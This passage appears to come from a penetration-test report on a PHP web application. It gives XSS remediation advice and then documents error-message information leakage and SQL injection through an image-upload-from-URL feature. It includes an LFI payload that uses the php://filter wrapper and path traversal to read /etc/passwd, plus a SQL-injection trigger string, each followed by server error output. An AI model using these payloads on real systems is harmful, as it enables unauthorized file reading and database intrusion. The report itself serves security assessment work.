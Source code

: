 **Remediation** : *The first step to mitigate the XSS is to apply the "HttpOnly" flag on the cookies and use the "X-XSS-protection" header and also apply CSP. Filter user entries with a list of allowed characters and not a black list. Use the filter mechanisms of your framework making sure it has no known vulnerabilities and/or use filtering libraries such as [DOMPurify](https://github.com/cure53/DOMPurify). Also use a WAF to mitigate base XSS.*

## 11 - Information exposure over error message
There are several ways to make the application crash and display an error message. For example by using the following payload on the page to upload an image from a URL :
```php
php://filter/convert.base64-encode/resource=../../../../../../../../etc/passwd
```

Instead of returning the contents of the `/etc/passwd` file, the application will display an error message. This not only confirms that the application is in PHP, but also allows us to get the full path to the application, which is useful to better exploit the LFI and also to get information about the logic of the application. This single message allows us to see that the application seems to use a VCM architecture.

```php
**Warning**: file_get_contents(): open_basedir restriction in effect. File(../../../../../../../../../etc/passwd) is not within the allowed path(s): (/var/www//:/usr/lib/php/:/tmp/) in **/var/www/domain.tld/controllers/controllerDashboard.php** on line **70**
```

## 12 - SQL Injection
The application has several SQL injections, some injection points just return a 500 error which doesn't make them very easy to exploit.

Still on the image upload, using the payload `file://x'` for example, the application crashes and returns a nice SQL error:

```
**Warning**: file_get_contents(): remote host file access not supported, file://x' in **/var/www/domain.tld/controllers/controllerDashboard.php** on line **70**  
  
**Warning**: file_get_contents(file://x'): failed to open stream: no suitable wrapper could be found in **/var/www/domain.tld/controllers/controllerDashboard.php** on line **70**  
  
**Fatal error**: Uncaught PDOException: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'cobocop532@aenmail.net'' at line 1 in /var/www/domain.tld/models/Model.php:116 Stack trace: #0 /var/www/domain.tld/models/Model.php(116): PDO->prepare('UPDATE `users` ...') #1 /var/www/domain.tld/models/UsersManager.php(75): Models\Model->update('users', Array, Array) #2 /var/www/domain.tld/controllers/controllerDashboard.php(71): Models\UsersManager->updateAvatar('img/x'', 'cobocop532@aenm...') #3 /var/www/domain.tld/controllers/controllerDashboard.php(22): controllers\controllerDashboard->accountChange('Change Account', 'dashboard/viewA...', 'dashboard') #4 /var/www/domain.tld/app/includes/Routing.php(80): controllers\controllerDashboard->__construct('accountChange', 'Change Account', 'dashboard/viewA...', 'dashb in **/var/www/domain.tld/models/Model.php** on line **116**
```
